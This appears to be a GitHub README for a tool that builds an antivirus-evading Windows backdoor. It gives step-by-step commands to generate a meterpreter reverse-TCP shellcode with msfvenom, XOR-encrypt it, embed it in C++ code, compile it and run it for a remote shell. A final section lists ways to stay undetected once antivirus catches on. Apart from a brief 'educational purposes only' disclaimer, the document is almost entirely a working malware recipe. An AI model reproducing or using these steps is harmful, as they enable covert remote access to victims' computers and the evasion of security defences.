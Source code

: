 # 🔒 Generate **FUD** backdoor with a Python **Crypter** 🔒
Follow the steps bellow to generate a crypted shellcode that can be used on a C++ executable.

## Clone the repository
```
sudo git clone https://github.com/3ct0s/fud-backdoor.git
cd fud-backdoor
```

## Generate The ShellCode

```
msfvenom -p windows/x64/meterpreter_reverse_tcp -e x86/shikata_ga_nai -i 10 LHOST=(IP) LPORT=(PORT) -f raw -o raw.txt
```

## Encode the ShellCode With the XOR Encryption

```
python xor_encryptor.py raw.txt > xor_shellcode.txt
```

## Add a decryption password
Add a password to both the main.cpp file and the xor_encryptor.py. It has to be the same password otherwise it will not work.

- main.cpp:
```cpp
  // replace the key variable with your own password or key
  char key[9] = "password";
  size_t key_len = strlen(key);
```
- xor_encryptor.py:
```python
# key should be similar to the one in the C++ file(main.cpp). Please
# endeavour to change it!!
KEY = "password"
```

## Add the crypted shellcode on main.cpp
Now that you have the encrypted shellcode you need to add it on the main.cpp file just like this:
```cpp
unsigned char xor_shell_code[] = /* place_xor_shellcode_here */;
```

## Compile the main.cpp file
There is no specific way to do this, all you need to do is compile the C++ code into a windows executable. Here are ways to do that.
https://cutt.ly/BBOXP797

## Execute the backdoor
Now you can execute the backdoor and enjoy the metepreter shell

## What if it gets detected?

At some point, the anti viruses will be able to detect this backdoor. Here are some things you can do to make it undetectable again. 

You can try to change the payload type protocol and make it http or https and make sure to use another port, add gibberish C++ code on the main.cpp file and you can also try playing with the SSL certificate of the session. Here is an article that covers this: https://www.darkoperator.com/blog/2015/6/14/tip-meterpreter-ssl-certificate-validation

If this still doesn't work, I can't think of another way to make the connection undetectable since this is a meterpreter shell and they get detected quite easily

## DISCLAIMER

I am not responsible for any of your actions. This GitHub repository is made for educational purposes only!!!
